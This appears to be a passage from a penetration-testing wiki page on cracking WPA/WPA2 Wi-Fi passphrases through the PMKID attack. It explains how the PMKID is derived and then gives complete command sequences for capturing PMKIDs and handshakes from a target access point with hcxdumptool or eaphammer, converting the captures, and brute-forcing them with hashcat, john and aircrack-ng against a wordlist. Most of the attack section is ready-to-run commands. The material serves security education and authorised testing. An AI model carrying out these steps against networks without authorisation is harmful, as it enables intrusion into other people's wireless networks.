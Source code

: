 Latest Announcements
Stay informed with the newest bug bounties launching and crucial platform updates

Join us on Discord and start collaborating with top hackers today!

WPA/WPA2 PSK
PMKID
In 2018, hashcat revealed a new attack method, unique because it only needs one single packet and doesn't require any clients to be connected to the target AP—just interaction between the attacker and the AP.

Many modern routers add an optional field to the first EAPOL frame during association, known as Robust Security Network. This includes the PMKID.

As the original post explains, the PMKID is created using known data:

Copy
PMKID = HMAC-SHA1-128(PMK, "PMK Name" | MAC_AP | MAC_STA)
Given that the "PMK Name" is constant, we know the BSSID of the AP and the station, and the PMK is identical to the one from a full 4-way handshake, hashcat can use this information to crack the PSK and recover the passphrase!

To gather this information and bruteforce locally the password you can do:

Copy
airmon-ng check kill
airmon-ng start wlan0
git clone https://github.com/ZerBea/hcxdumptool.git; cd hcxdumptool; make; make install
hcxdumptool -o /tmp/attack.pcap -i wlan0mon --enable_status=1
Copy
#You can also obtains PMKIDs using eaphammer
./eaphammer --pmkid --interface wlan0 --channel 11 --bssid 70:4C:A5:F8:9A:C1
The PMKIDs captured will be shown in the console and also saved inside _ /tmp/attack.pcap_
Now, convert the capture to hashcat/john format and crack it:

Copy
hcxtools/hcxpcaptool -z hashes.txt /tmp/attack.pcapng
hashcat -m 16800 --force hashes.txt /usr/share/wordlists/rockyou.txt
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
Please note the format of a correct hash contains 4 parts, like: 4017733ca8db33a1479196c2415173beb808d7b83cfaa4a6a9a5aae7566f6461666f6e65436f6e6e6563743034383131343838 If yours only contains 3 parts, then, it is invalid (the PMKID capture wasn't valid).

Note that hcxdumptool also capture handshakes (something like this will appear: 
MP:M1M2 RC:63258 EAPOLTIME:17091
). You could transform the handshakes to hashcat/john format using cap2hccapx

Copy
tcpdump -r /tmp/attack.pcapng -w /tmp/att.pcap
cap2hccapx pmkid.pcapng pmkid.hccapx ["Filter_ESSID"]
hccap2john pmkid.hccapx > handshake.john
john handshake.john --wordlist=/usr/share/wordlists/rockyou.txt
aircrack-ng /tmp/att.pcap -w /usr/share/wordlists/rockyou.txt #Sometimes
I have noticed that some handshakes captured with this tool couldn't be cracked even knowing the correct password. I would recommend to capture handshakes also via traditional way if possible, or capture several of them using this tool.
